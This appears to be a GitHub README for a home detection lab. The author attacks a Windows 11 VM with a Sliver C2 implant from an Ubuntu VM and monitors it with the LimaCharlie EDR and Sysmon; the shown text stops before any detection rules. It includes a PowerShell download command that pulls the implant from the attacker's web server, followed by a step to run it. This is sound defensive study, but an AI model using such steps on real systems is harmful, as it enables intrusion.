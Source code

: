 # LimaCharlie-EDR-Lab
![Architecture](https://i.imgur.com/6mftsEk.jpg)

## Introduction

I simulated a real-life cyber attack scenario and tested the effectiveness of my security measures. I created two virtual machines on a NatNetwork: an Ubuntu Server acting as the attacker, and a Windows 11 machine as the victim.

To enhance the security of the victim machine, I installed LimaCharlie sensor and Sysmon, which helped me detect any potential attacks or security events. On the Ubuntu Server, I installed Silver C2, a command and control attack tool for Windows machines.

To test my security measures, I executed the C2 attack and created detection rules to alert administrators of any suspicious activity. This lab project aimed to demonstrate the importance of having robust security measures in place to protect against cyber attacks.


The architecture of the project consists of the following components:


- Virtual Box NatNetwork
- Virtual Machines (1 windows, 1 linux)
- LimaCharlieEDR
- Silver C2 Server

## Labbing

After environment is set up I created a implant on the Ubuntu server to install on to the Windows System

![Implant](https://i.imgur.com/LEP0qSk.png)

Next I created quick websever on the Ubuntu machine for the C2 Payload to be installed from, then I ran this command on the Windows device.

![IWR](https://i.imgur.com/dadsDeX.png)

Commad: IWR -Uri http://[IpAddress]/[ImplantName] -Outfile [FileLocation]

After downloading the implant we need to run the malicious file 

![Excute](https://i.imgur.com/mkdYQkp.png)

